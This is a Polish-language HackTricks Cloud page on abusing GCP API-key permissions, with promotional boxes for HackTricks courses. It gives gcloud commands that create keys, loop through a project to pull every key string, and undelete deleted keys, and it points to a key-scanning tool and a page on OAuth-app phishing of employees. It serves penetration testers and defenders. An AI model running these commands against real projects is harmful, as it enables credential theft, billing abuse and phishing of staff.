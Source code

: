 # GCP - Eskalacja uprawnień za pomocą kluczy API

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Klucze API

Następujące uprawnienia są przydatne do tworzenia i kradzieży kluczy API, nie z tych dokumentów: _Klucz API to prosty zaszyfrowany ciąg znaków, który **identyfikuje aplikację bez żadnego podmiotu**. Są one przydatne do uzyskiwania dostępu do **publicznych danych anonimowo**, i są używane do **powiązania** żądań API z twoim projektem w celu **limitu i **fakturowania**._

Dlatego z kluczem API możesz sprawić, że firma zapłaci za korzystanie z API, ale nie będziesz mógł eskalować uprawnień.

Aby uzyskać więcej informacji na temat kluczy API, sprawdź:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

Aby poznać inne sposoby tworzenia kluczy API, sprawdź:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Atak siłowy na dostęp do klucza API <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Ponieważ możesz nie wiedzieć, które interfejsy API są włączone w projekcie lub jakie są nałożone ograniczenia na znaleziony klucz API, warto uruchomić narzędzie [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) i sprawdzić, **do czego możesz uzyskać dostęp za pomocą klucza API.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

To uprawnienie pozwala **tworzyć klucz API**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Możesz znaleźć skrypt do zautomatyzowania [**tworzenia, wykorzystania i oczyszczania środowiska podatnego tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Zauważ, że domyślnie użytkownicy mają uprawnienia do tworzenia nowych projektów i są nadawani rolę Właściciela w nowym projekcie. Dlatego użytkownik mógłby **utworzyć projekt i klucz API wewnątrz tego projektu**.
{% endhint %}

### `apikeys.keys.getKeyString`, `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Te uprawnienia pozwalają **wyświetlać i pobierać wszystkie klucze API oraz pobierać klucz**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Możesz znaleźć skrypt do zautomatyzowania [**tworzenia, wykorzystania i oczyszczania środowiska podatnego na atak tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Te uprawnienia pozwalają na **wyświetlanie i ponowne generowanie usuniętych kluczy API**. **Klucz API jest podawany w wyniku** po wykonaniu operacji **undelete**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Utwórz wewnętrzną aplikację OAuth do phishingu innych pracowników

Sprawdź następującą stronę, aby dowiedzieć się, jak to zrobić, chociaż to działanie należy do usługi **`clientauthconfig`** [zgodnie z dokumentacją](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
